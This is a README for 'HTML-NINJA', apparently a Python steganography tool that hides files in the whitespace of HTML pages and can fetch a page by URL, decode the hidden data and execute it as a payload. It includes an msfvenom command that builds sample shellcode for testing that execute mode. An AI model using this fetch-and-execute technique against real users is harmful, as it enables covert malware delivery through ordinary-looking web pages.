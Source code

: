 # HTML-NINJA by ephreet

HTML NINJA is a steganograpy tool to encrypt files in white spaces of html documents: the final result is a oneline HTML that, when parsed by browsers, will show only single spaces
This will work only if the source page will have enough spaces to contain the data to be hidden!
You can also use it on any text container, but the result will be unformatted text with a lot of suspicious spaces...


## USAGE EXAMPLES:
```
html-ninja.py -e source content outfile -> will encode the payload file 'content' into file 'source' and output the result as 'outfile'
html-ninja.py -d source outfile -> will try to decrypt white spaces in 'source' file into 'outfile'
html-ninja.py --check filename -> will check 'filename' for available spaces and spaces needed to embed the file
html-ninja.py -d http://localhost/html-ninja.html stdout -> will get http url and output to stdout
html-ninja.py -d http://localhost/html-ninja.html exec -> will get http url and execute the hex payload (payload must have a '|' terminator)
html-ninja.py -ez / -dz ... -> adds zlib compression to both encryption and decryption
html-ninja.py -eb / -db ... -> adds bz2 compression to both encryption and decryption
```

## html-ninja.js

This is a very basic function to read hidden data directly from browser, there are a lot of ways you can use this...just use your imagination!


## html-ninja.html

This is a PoC to show how it's possible to embed self decrypting data inside html pages. This needs a proper web server to run (not file:///...)


## buf.txt

This is a sample payload to test the 'exec' parameter while decrypting.
```
msfvenom -p linux/x64/exec CMD="whoami;id;uname -a" -f python -o buf.txt
```
